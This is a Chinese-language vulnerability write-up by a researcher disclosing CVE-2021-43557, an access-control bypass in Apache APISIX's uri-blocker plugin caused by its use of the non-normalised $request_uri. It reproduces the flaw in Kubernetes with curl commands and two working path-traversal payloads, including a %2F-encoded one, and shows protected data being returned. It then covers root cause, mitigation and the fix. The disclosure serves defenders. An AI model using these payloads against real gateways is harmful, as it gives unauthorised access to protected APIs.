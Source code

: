 ```yaml
---
title: "关于 Apache APISIX Ingress Controller request_uri 变量不安全问题的研究报告"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- CVE
- Request_uri
- 安全漏洞
description: 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中`$request_uri` 变量不安全使用的问题研究。
tags: [Technology]
---
```


> 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中 `$request_uri` 变量不安全使用的问题研究。

<!--truncate-->

本文提及的 Ingress Controller 中 `$request_uri` 变量不安全使用的问题，目前该漏洞已被确认为 CVE-2021-43557。在向社区及时反馈后，目前该漏洞已第一时间被修复。同时在文章最后，我也将简要地提到我为同一问题测试的[Skipper](https://github.com/zalando/skipper) 项目。

> Apache APISIX 是一个动态、实时、高性能的 API 流量处理平台，它提供了丰富的流量管理功能，如负载均衡、动态上游、金丝雀发布、断路器、身份认证、可观测性等。

为什么是 `$request_uri`？

[`$request_uri`](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri)在认证和授权插件中被多次使用。因为它是**不规范的**，所以就增加了绕过一些限制的可能性。

Apache APISIX 内置多种身份认证插件，当然，你也可以编写自定义插件。为了验证它受到了路径遍历问题的影响，我选择了 `uri-blocker` 插件进行演示。

## 开始部署

在这里，我使用了 0.7.2 版本的 Helm Chart 来将 Apache APISIX 部署至 Kubernetes 中：

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

> 如果安装时出现问题，请参考[官方指南](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md)。

接下来创建 Ingress 路由，在这里就需要部署 `ApisixRoute` 资源：

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

`ApisixRoute` 可以做到以下内容：

- 为 `public-service` 和 `private-service` 创建路由；
- 开启 `proxy-rewrite` 来删除前缀；
- 为 `protected-service` 配置了 `uri-blocker` 插件。这个插件会阻止任何以 `/protected-service` 开头的请求。

## 复现步骤

在这里，我使用的是 **2.10.0** 版本的 Apache APISIX。

选择使用 minikube 来访问 Apache APISIX 路由资源：

```shell
kubectl exec -it -n ${Apache APISIX namespace} ${Apache APISIX Pod name} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'
```

此外，我也写了一个脚本来减少重复性操作：

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

> 在尝试复现问题时，可将 `apisix-dc9d99d76-vl5lh`替换为实际的 Apache APISIX Pod 名称。

接下来让我们开始验证路由和插件是否按预期正常工作：

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

从上边我们看到，`public-service` 是可用的，`protected-service` 则被插件阻止了。

现在让我们测试一下 Payload：

- 情况一

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

- 情况二

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

正如你所看到的，在上述两种情况下，我都能够绕过 Uri 的限制。

### 漏洞解析

出现上述情况的根本原因是 `uri-blocker` 插件在处理禁止访问的逻辑中使用了 `ctx.var.require_uri` 变量。可以点击[相关代码](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98)进行查看。

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### 漏洞影响

- 攻击者可以绕过访问控制限制逻辑，访问本应该禁止的 API；
- 自定义插件的开发者或许不知道 `ngx.var.request_uri` 变量是不可信任的。

在搜索 `var.request_uri` 相关用法时，我猜测上述漏洞或许对 [authz-keycloak](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) 插件也有影响。

具体细节详情可以参考[这段代码](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578)。如果 keycloak 方面没有进行相关规范化，那么出现漏洞的可能性就很大。

### 处理措施

关于此漏洞的解决方法，我个人建议如果是使用自定义插件的话，可在使用 `ngx.var.request_uri` 变量前进行路径规范化的相关处理。同时可以额外检查下 `ctx.var.upstream_uri` 和 `ctx.var.uri` 这两个变量，虽然可能已经被规范化了，但防患于未然。

## Skipper

Skipper 是我个人在进行上述安全漏洞调查时接触到的另一个 Ingress Controller。因其内容久远未更新，在 Kubernetes 中安装它并不容易。幸运的是，我在开发者文章里找到了如何安装它的相关内容。

这项 Ingress 提供了基于 [WebHook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook) 实现的外部认证可能性。

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

通过添加一些 headers 可以优化访问控制决策，但需要用 `setRequestHeader` 过滤器手动完成。

有一个模板可以通过使用 `${}` 来注入变量，但遗憾的是（对攻击者来说）`${request.path}` 有正常化的路径。在它的开发代码中可以看到，开发人员并没有轻易使用 `RequestURI` 和`originalRequest`。

我没有进行相关的路径遍历测试，或许 Skipper 也是安全可信的一个 Ingress Controller 选择。

## 总结

虽然前文中我提到了 Apache APISIX 存在路径遍历的漏洞，但该漏洞并不影响任何外部认证，只是影响了使用 `ctx.var.request_uri` 变量的插件。同时该漏洞已被 Apache APISIX 进行了及时修复，目前已没有安全漏洞问题，大家可放心使用。

关于本文中提到的全部代码都可以在[这里](https://github.com/xvnpw/k8s-CVE-2021-43557-poc)进行查阅参考。
